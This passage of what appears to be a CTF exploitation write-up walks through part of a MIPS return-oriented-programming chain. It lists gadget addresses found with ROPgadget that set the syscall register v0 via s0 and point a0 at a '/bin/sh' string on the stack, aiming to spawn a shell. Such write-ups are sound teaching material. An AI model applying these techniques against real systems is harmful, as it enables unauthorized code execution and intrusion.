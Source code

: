 <figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

first thing I take into care of is the syscall number register, `v0`

I ran ROPGadgets to extract the available gadgets and search for `pop $v0` but found nothing, that can be chained, so I opted to control it with other registers, as we already controled much of the `t[1-7]` registers, I search for `move $v0, $t[1-7]` gadget but found nothing. what I found however is this:

```
0x0045cb3c : move $v0, $s0 ; lw $ra, 0x2c($sp) ; lw $s4, 0x28($sp) ; lw $s3, 0x24($sp) ; lw $s2, 0x20($sp) ; lw $s1, 0x1c($sp) ; lw $s0, 0x18($sp) ; jr $ra ; addiu $sp, $sp, 0x30
```

so this means I have to find a `pop $s0` gadget, and there's a convinient one:

```
0x0040dfe8 : lw $ra, 0x24($sp) ; lw $s0, 0x20($sp) ; jr $ra ; addiu $sp, $sp, 0x28
```

next to control `a0` to points to /bin/sh, I used this instruction to move the stack pointer to `a0` and write /bin/sh to said stack offset.

```
0x004269e8 : addiu $a0, $sp, 0x58 ; lw $t9, 0x18($sp) ; jalr $t9 ; lw $a1, 0x60($sp)
```
